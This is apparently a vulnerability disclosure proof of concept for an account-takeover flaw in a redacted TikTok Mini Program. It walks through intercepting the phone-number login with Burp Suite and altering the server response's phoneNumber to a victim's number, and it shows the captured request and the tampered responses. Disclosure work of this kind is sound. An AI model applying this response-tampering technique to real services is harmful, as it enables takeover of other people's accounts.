








# Proof of Concept (PoC) for MiniPVRF in "xxxxxx" TikTok Mini-Program of tt15c6XXXX8af92b8a01

# Arbitrary Account Takeover

## 1. Prerequisites for Reproduction

- Burp Suite tool (configured properly to capture network packets of TikTOK Mini-Programs)
- TikTOK application (to search for and open the target TikTOK Mini Program)
- A mobile device (Android/iOS) with TikTOK installed (to run the Mini Program and complete the authorization process)

## 2. Vulnerability Reproduction Steps

### Step 1: Locate and Open the Target TikTOK Mini Program

1. Launch the TikTOK application on the mobile device.
2. Use the search function in TikTOK to find the Mini Program named **"XXXXXXXXXXXXXXXXXXXXXXXXX"**.
3. Click to open the searched Mini Program.
4. 

### Step 2: Navigate to the Login Page

1. On the homepage of the Mini Program, find and click the **"My (我的)"** section (usually located in the bottom navigation bar or upper-right corner).

2. 

3. On the "My" page, click the **"TikTok Authorization Login"** button (or similar login trigger, depending on the Mini Program's interface design).

4. On the login interface, select the **"TikTOK Mobile Phone Number Authorization Quick Login"** option.

   

### Step 3: Capture the Login Request Packet with Burp Suite

1. Ensure Burp Suite is in **Intercept Mode** and the mobile device is configured to use Burp Suite as the proxy (to capture the Mini Program's network traffic).
2. On the TikTOK Mini Program's login page, a prompt will appear asking for authorization to use the TikTOK-bound mobile phone number (shown as 18\*******\*\*\*\*\*\***80 in the test). Click the **"Agree (同意)"** button.
    
3. Burp Suite will intercept the following HTTP POST request packet sent by the Mini Program to the login interface:

```http
POST /xxxxxxxxx/TikTOK/platform/appletLogin HTTP/1.1
Host: xxxxxxxxxxxxxxxxx.com
Content-Length: 518
Hospitalid: 27216
User-Agent: Mozilla/5.0 (Linux; Android 8.1.0; PAR-AL00 Build/HUAWEIPAR-AL00; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/109.0.5414.117 Mobile Safari/537.36 aweme/28.4.0 ToutiaoMicroApp/3.11.0 PluginVersion/28409038
Content-Type: application/json
Referer: https://tmaservice.developer.toutiao.com/?appid=xxxxx&version=1.0.14
Accept-Encoding: gzip, deflate
Connection: close

{""code":"NVu_pcOqtQwxxxxxxxxxxxxxxxxxxxxxx==","iv":"llsW8AZFxxxxxxxxxxxxxxxxxxxxxxxxxxYCIg==","timestamp":xxxxxxxxxxxxx,"platform":3,"encryption":1,"sign":"76db50808e66b9420561cbf5e472ae0c"}
```



### Step 4: Intercept and Tamper with the Login Response Packet

1. Keep Burp Suite in Intercept Mode and wait for the target server to return the **response packet** corresponding to the login request.
   

2. The original response packet (with a 200 status code) contains the attacker's test mobile phone number. The original response content is as follows:

   ```json
   HTTP/1.1 200
   Date: Tue, 26 Aug 2025 01:05:39 GMT
   Content-Type: application/json
   Connection: close
   Server: nginx/1.28.0
   Access-Control-Allow-Origin: *
   Access-Control-Allow-Methods: GET, POST, OPTIONS, PUT, DELETE
   Access-Control-Allow-Headers: *
   Content-Length: 246
   
   {
     "code":0,
     "codeDesc":"xxxx",
     "data":{
   	xxxxxxxxx
       "phoneNumber":"18xxxxxxxxxxxx80"
     }
   }
   ```

3. Modify the value of the `phoneNumber` field in the `data` object from the original test number ("18xxxxxxxxxxx80") to the

    victim's mobile phone number (e.g., "15xxxxxxxxxxxx72"). The tampered response packet is as follows:

   ```json
   HTTP/1.1 200
   Date: Tue, 26 Aug 2025 01:12:22 GMT
   Content-Type: application/json
   Connection: close
   Server: nginx/1.28.0
   Access-Control-Allow-Origin: *
   Access-Control-Allow-Methods: GET, POST, OPTIONS, PUT, DELETE
   Access-Control-Allow-Headers: *
   Content-Length: 246
   
   {
     "code":0,
     "codeDesc":"xxxx",
     "data":{
       xxxxxxxxxxxx
       "phoneNumber":"15xxxxxxxxx72"
     }
   }
   ```

   

### Step 5: Complete Arbitrary Account Login

1. Click the **"Forward"** button in Burp Suite to send the tampered response packet to the TikTOK Mini Program.
2. Disable Intercept Mode in Burp Suite to avoid blocking subsequent normal network requests of the Mini Program.
3. The Mini Program receives the tampered response and mistake think the login request is associated with the victim's mobile phone number ("15xxxxxxxxxxx72"), thus automatically logging into the victim's account.
   **